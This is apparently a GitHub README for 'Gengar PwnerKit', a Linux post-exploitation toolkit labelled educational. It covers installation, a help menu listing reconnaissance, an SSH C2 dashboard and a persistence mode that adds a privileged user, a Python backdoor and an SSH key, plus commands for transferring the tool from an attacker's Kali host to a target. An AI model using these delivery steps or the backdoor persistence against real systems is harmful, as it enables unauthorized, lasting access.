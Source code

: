 #Gengar PwnerKit

<div>
    <img src="https://img.shields.io/badge/-Linux-grey?logo=Linux&logoColor=white" width="70px">
    <img src="https://img.shields.io/badge/-Bash-green?logo=GNU-Bash&logoColor=white" width="70px">
    <img src="https://img.shields.io/badge/-Python3-3776AB?logo=Python&logoColor=white" width="90px">
</div>

## Persistence [TA0003](https://attack.mitre.org/tactics/TA0003/) | Privilege Escalation [TA0004](https://attack.mitre.org/tactics/TA0004/) | Discovery [TA0007](https://attack.mitre.org/tactics/TA0007/)
 
                    ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)

---
 
## About Gengar PwnerKit
### [+] Educational purposes
### [+] Rewritten and more objective code
### [+] New Features
### [+] Better usability
---

## How to Install?
```
wget -q https://raw.githubusercontent.com/h0ru/gpk/main/bin/gpk -O gpk ; chmod +x gpk
```
---
## Help Menu
```
 [*] HELP MENU

     [+] -h --help  -   HELP MENU (Show these help)
     [+] -m         -   MACHINE INFORMATIONS (Show Hardware/System Infos)
     [+] -ds        -   DEEP SEARCH (Show Tools, Crontab Files, SUID Binaries, Writable Folders)
     [+] -n         -   NETWORK (Show Network Information and use Ping Sweep and Port Scan modes)
     [+] -c2        -   CHACAL C2 (Manage SSH Connections Through a Dashboard)
     [+] -p         -   PERSISTENCE (Create a Privileged User Called BACKUPS, Create a Backdoor in Python3 and an SSH KEY)
```
---

## Check out some images
### [IMAGES](https://github.com/h0ru/gpk/blob/main/IMAGES.md)
---

## Sending to The Target
### Local Network
```
(KALI)
python3 -m http.server 80

(TARGET)
wget ip/gpk -O gpk ; chmod +x gpk
```
### Via BASE64
```
(KALI)
cat gpk | base64 -w0

(TARGET)
nano gpk.b64 (paste the base64 gpk code)

base64 -d gpk.b64 > gpk ; chmod +x gpk
```
---
